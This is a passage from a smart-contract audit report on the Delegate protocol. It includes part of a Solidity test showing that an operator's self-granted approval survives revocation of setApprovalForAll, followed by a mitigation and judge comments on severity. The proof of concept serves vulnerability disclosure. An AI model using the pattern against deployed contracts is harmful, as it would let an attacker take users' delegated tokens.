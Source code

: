 ```solidity
        uint256 delegateId1 = dt.create(
            DelegateTokenStructs.DelegateInfo(
                from,
                IDelegateRegistry.DelegationType.ERC721,
                from,
                0,
                address(mockERC721),
                33,
                "",
                expiry
            ),
            SALT + 1
        );

        vm.prank(address(dt));
        dt.approve(address(dt), delegateId1);

        vm.prank(from);

        dt.setApprovalForAll(address(dt), false);
        address tmp = dt.getApproved(delegateId1);
        console.log(tmp);
        vm.prank(address(dt));
        dt.transferFrom(from, address(0x320), delegateId1);
    }
```

### Recommended Mitigation Steps

If token Holder revokes the approval for a operator using `DelegateToken.setApprovalForAll`, revoke the all the approvals(DelegateToken.approve) which is done by the operator.

### Assessed type

Access Control

**[0xfoobar (Delegate) confirmed and commented](https://github.com/code-423n4/2023-09-delegate-findings/issues/383#issuecomment-1728555248):**
 > Need to double-check, but looks plausible.

**[Alex the Entreprenerd (judge) commented](https://github.com/code-423n4/2023-09-delegate-findings/issues/383#issuecomment-1740661652):**
 > In contrast to ERC721, which only allows the owner to change `approve`<br>
> [ERC721.sol#L448-L454](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/ef3e7771a7e2d9b30234a57f96ee7acf5dddb9ed/contracts/token/ERC721/ERC721.sol#L448-L454)
> 
> `DT.approve` allows the operator to set themselves as approved, which can technically be undone via a multicall but may not be performed under normal usage.

**[Alex the Entreprenerd (judge) decreased severity to Medium and commented](https://github.com/code-423n4/2023-09-delegate-findings/issues/383#issuecomment-1742167006):**
 > Leaning towards Medium Severity as the finding requires:
> - Alice `approvesForAll` Bob
> - Bob approves self
> - Alice revokes Bobs `approvalForAll`
> - Alice doesn't revoke the `_approve` that Bob gave to self
> 
> Notice that any transfer would reset the approval as well.
